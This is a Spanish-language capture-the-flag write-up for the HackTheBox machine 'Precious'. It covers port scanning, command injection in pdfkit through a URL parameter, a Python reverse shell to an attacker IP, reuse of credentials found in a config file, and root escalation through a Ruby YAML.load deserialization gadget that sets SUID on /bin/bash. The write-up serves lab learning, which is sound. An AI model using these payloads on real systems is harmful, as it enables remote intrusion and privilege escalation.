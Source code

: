 ```yaml
---
title: HackTheBox Precious - Command injection y YAML deserialization
author: c4rta
date: 2023-01-02
categories: [Maquinas, HackTheBox]
tags: [Command injection, YAML deserialization]
---
```



## Enumeracion

Iniciamos con un escaneo de nmap con el comando:

```
nmap -sS -n -Pn --open -p- 10.10.11.189
```
El cual le estamos diciendo que con:

- sS: haga un TCP SYN Scan el cual hace que el destino responda con un RST si el puerto esta cerrado, o con un SYN/ACK si esta abierto,e sto con el fin de iniciar la conexion sin que termine

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

Esto nos reportara 2 puertos abiertos:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Asi que ahora escanearemos para saber la version y servicio que esta corriendo por detras:

```
sudo nmap -sCV -p22,80 10.10.11.189
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Tenemos el puerto de SSH abierto, pero aun no podemos hacer mucha cosa, y el puerto 80, el cual de primeras nos dice que podemos convertir una pagina web a un pdf: ```http-title: Convert Web Page to PDF```

Si nos dirigimos a la pagina web, podemos ver que esta esperando por una URL, asi que para comprobar que se puede convertir a PDF, iniciaremos un servidor web con python:

```python3 -m http.server 8080```

Y le pasaremos la URL

![](/assets/img/commons/precious/precious1.png)

Y efecto, convierte la pagina a un pdf, y me muestra el contenido de mi directorio /Desktop

![](/assets/img/commons/precious/precious2.png)

En este punto, una buena idea es ver un poco de los metadatos del pdf, usaremos la herramienta ```exiftools``` (aun que por alguna razon no me jala, asi que usare esta [web](https://exif.tools/))

Y podemos ver que para generarlo esta usando pdfkit:

![](/assets/img/commons/precious/precious3.png)

## Command Injection

La version de pdfkit que genero el pdf es la ```v0.8.6```, asi que... Nunca es mala idea buscar si existe un exploit para la version de algo.

Econtre que esa version de vulnerable a ```Command injection``` a travez del parametro ```name``` 

Lee [aqui](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) si quieres saber mas

Asi que intentare ejecutar el comando ```whoami``` para ver si funciona:

```
http://10.10.14.102:8080/?name=%20`whoami`
```

![](/assets/img/commons/precious/precious4.png)

Y una vez sabiendo que si funciona, por lo tanto tenemos Remote Command Execution(RCE), nos mandaremos una reverse shell con python3:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Y la URL queda:

```
http://10.10.14.102:8080/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
Recuerda editar la IP por la que te dio HTB

## Flag de user

Al lista el contenido podemos ver varios directorios:

```bash
ruby@precious:~$ ls -lha
ls -lha
total 28K
drwxr-xr-x 4 ruby ruby 4.0K Apr 10 16:46 .
drwxr-xr-x 4 root root 4.0K Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3.5K Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4.0K Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4.0K Apr 10 16:46 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Navegando un poco, encontre que en el directorio ```.bundle``` hay un archivo de configuracion el cual tiene unas credenciales:

```bash
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Y recordemos que tenemos el puerto del SSH abierto, asi que nos conectaremos por ssh con las credenciales que nos aparecen ahi.

usuario: henry

contraseña: Q3c1AqGHtoI0aXAYFH

Y ahora si ya podemos ver la flag de user:

```bash
henry@precious:~$ cat user.txt 
8cee1d827eb735217879ec75ce6d2751
```

## Flag de root

Primeramente ingresare el comando ```sudo -l``` para poder ver que podemos ejecutar como root desde el usuario ```henry```

```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Nos dice que podemos ejecutar el archivo ```update_dependencies.rb```

Asi que vamos a pasar a ver el contenido del archivo:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Me doy cuenta que esta intentando cargar un archivo que se llama ```dependencies.yml```, el cual no se le esta indicando la ruta, es decir, que lo trata de cargar desde el directorio actual donde se encuentra el usuario, entonces... ¿Por que no crearlo?, y ademas esta usando la funcion ```YAML.load()``` la cual es vulnerable a un ataque```YAML deserialization``` el cual deriva de un RCE, para saber como explotarlo nos guiaremos de [aqui](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

Crearemos un archivo yml con el nombre ```dependencies.yml``` en el directorio actual, con el contenido:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

Donde le estamos diciendo que ejecute el comando ```chmod +s /bin/bash``` que le asigna permisos SUID a /bin/bash

Y por ultimo ejecutamos el archivo:

```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
Y ya somos root:

```bash
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
95ff0867c3156b05a0f2d49fc6b1ba48
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/precious/waifu.gif)



